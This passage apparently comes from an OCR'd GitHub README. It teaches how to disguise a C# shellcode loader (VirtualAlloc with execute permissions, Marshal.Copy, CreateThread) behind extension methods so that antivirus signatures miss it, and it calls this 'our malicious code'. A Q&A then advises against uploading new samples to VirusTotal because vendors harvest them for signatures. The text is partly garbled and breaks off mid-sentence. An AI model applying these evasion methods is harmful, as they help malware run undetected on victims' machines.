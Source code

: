 Our objective with this "RArAtikTdkA" Technique is to demonstrate how to get around 
antivirus programs that only concentrate on lines 1 through 8. Thus, we need consider 
lines 1 through 8 when using the Simple "X" Technique.

Finally, our new code would have the following lines which produce the exact same result
as the method we described above in lines 1-8. With such a way we hide more our malicious 
code when we call the unmanaged API.
```
1. UInt32 funcAddr = VirtualAlloc(0x00000000, (UInt32)payload.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

changed to

    UInt32 funcAddr2 = 1;

    UInt32 funcAddr1 = funcAddr2.VA(p);

2. Marshal.Copy(payload, 0x00000000, (IntPtr)(funcAddr), payload.Length);

changed to  

   Convert.ToUInt32("2").CPY(p, (IntPtr)(funcAddr1));

6. hThread = CreateThread(0x0000, 0x0000, funcAddr, pinfo, 0x0000, ref threadId);

7. WaitForSingleObject(hThread, 0xffffffff);

changed to funcAddr2.WSO(Convert.ToUInt32("3").CT(funcAddr1, pin, tId))
```
Microsoft explained C# “Extension Method” by something like this:
"By using extension methods, you can  methods to preexisting types without 
having to rebuild the original type, recompile it, or do any other changes. Although 
they are referred to as instance methods on the extended type, extension methods are 
actually a [special kind of static method]. Calling an extension method and the methods
that are defined in a type don't seem to differ for client code written in C#, F#, 
and Visual Basic. You [invoke] the extension method using instance method syntax in 
your code. That being said, your code is translated into a [call] on the static method
by the intermediate language (IL) that the compiler generates. Consequently, there isn't 
actually a violation of the encapsulation principle."

## Q&A
  - ### Is obfuscation worth it
    Client-side obfuscation and protection has the drawback that the attacker will 
    always prevail. In the end, he can intercept and manipulate everything because your 
    code is running on his PC. No. It is not worth obfuscating. Your apps will constantly be 
    detected as false positives by virus scanners if you obfuscate them. You'll have far 
    more headaches from this than from a few lost purchases.
    I can tell you as a developer that obfuscation is pointless. Things need to be 
    "deobfuscated" in order for the run time to execute the code, especially for things 
    like .NET where I am actually executing CLR code. In reality, all you're doing is 
    altering lovely variables like posts = posts + 1 to, ultimately, something like x=x+1.
    It won't slow you down if you're already accustomed to viewing the decompiled byte-code 
    with amusing variable and function names. Proceeded
  - ### Should i use VirusTotal
    if you upload your novel code to VT is the same as burning it because IT acts as a honeypot.
    Vendors have the ability to extract anything they want via the VT API, either 
    automatically or manually, albeit the first VT analysis is restricted. As I understand 
    it, this is quite normal practice across the board. I worked with a vendor that is 
    listed on VT, and we were automatically taking in samples with specified signs to 
    process them further. Which samples go to be further scanned are determined by 
    suspicious indicators, and if it is determined that the samples are malicious, 
    definitions are generated based on the findings. Because it takes time to process, 
    it may pop a 0 on the initial scan and show results a day later. Virus Total uses 
    sigs to function; to create a new sig that VT has never seen, write code. You scan it,
